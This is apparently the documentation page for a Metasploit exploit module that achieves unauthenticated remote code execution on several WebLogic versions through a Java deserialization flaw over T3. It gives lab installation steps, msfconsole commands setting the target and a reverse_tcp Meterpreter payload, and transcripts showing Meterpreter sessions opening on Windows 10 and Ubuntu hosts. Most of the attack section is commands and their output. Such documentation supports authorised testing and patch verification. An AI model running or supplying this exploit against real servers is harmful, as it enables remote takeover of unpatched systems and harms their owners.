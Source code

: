 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved
  by sending a serialized BadAttributeValueExpException object
  over T3 to vulnerable WebLogic servers.

  This module has been tested against versions `v12.1.3.0.0`,
  `v12.2.1.3.0`, and `v12.2.1.4.0`.

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).
  
### Installation

  Some version of Java 8 jdk is required to be installed on the server.
  This module has been tested successfully using jdk8u202 and [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).
  
  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).
  
  On step 10 of the installation instructions keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute either the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

- [ ] Install the application
- [ ] Start msfconsole
- [ ] Do: ```use exploit/multi/misc/weblogic_deserialize_badattrval```
- [ ] Do: ```set RHOSTS <ip>```
- [ ] Do: ```run```
- [ ] You should get a meterpreter session.

## Scenarios
### WebLogic `v12.2.1.4` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattrval
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.185
  rhosts => 172.16.215.185
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.185:7001 - WebLogic version detected: 12.2.1.4.0
  [*] 172.16.215.185:7001 - Sending handshake...
  [*] 172.16.215.185:7001 - Formatting payload...
  [*] 172.16.215.185:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.185
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.185:50795) at 2020-05-15 09:37:45 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 4
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.1.3.0.0` on Linux
  
  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.196
  rhosts => 172.16.215.196
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [*] 172.16.215.196:7001 - WebLogic version detected: 12.1.3.0.0
  [*] 172.16.215.196:7001 - Sending handshake...
  [*] 172.16.215.196:7001 - Formatting payload...
  [*] 172.16.215.196:7001 - Sending object...
  [*] Sending stage (3012516 bytes) to 172.16.215.196
  [*] Meterpreter session 6 opened (172.16.215.1:4444 -> 172.16.215.196:60672) at 2020-05-15 09:41:17 -0500
  [*] 172.16.215.196:7001 - Command Stager progress - 101.36% done (820/809 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.196
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
